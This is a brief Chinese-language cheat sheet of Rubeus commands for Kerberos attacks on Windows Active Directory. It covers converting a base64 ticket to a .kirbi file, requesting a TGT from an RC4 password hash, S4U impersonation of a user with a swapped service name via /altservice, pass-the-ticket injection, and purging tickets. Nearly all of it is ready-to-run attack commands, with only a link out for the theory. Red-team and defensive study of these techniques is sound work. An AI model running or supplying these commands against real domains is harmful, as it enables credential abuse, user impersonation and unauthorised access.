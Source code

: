 理论部分参考[这篇文章](https://www.anquanke.com/post/id/161781)

# base64转成票据（PS操作）

```
[IO.File]::WriteAllBytes("C:\Users\Administrator\desktop\nlamb.kirbi", [Convert]::FromBase64String("doIFZzC..."))
```

# 根据哈希请求票据

```
Rubeus.exe asktgt /user:dfm.a /rc4:2b576acbe6bcfda7294d6bd18041b8fe /ptt
```


# /altservice
**/altservice** 参数利用了 Alberto Solino‘s 的伟大发现，即 服务名称在KRB-CRED文件中不被保护 ，只有服务器名称才被保护。这就允许我们在生成的KRB-CRED（.kirbi）文件中替换我们想要的任何服务名称

```
Rubeus.exe s4u /ticket:C:TempTicketspatsy.kirbi /impersonateuser:dfm.a /msdsspn:ldap/primary.testlab.local /altservice:cifs /ptt
```

# ptt
```
Rubeus.exe ptt /ticket:doIFmj...(snip)...
```


# 清除所有登录会话
```
Rubeus.exe purge
```
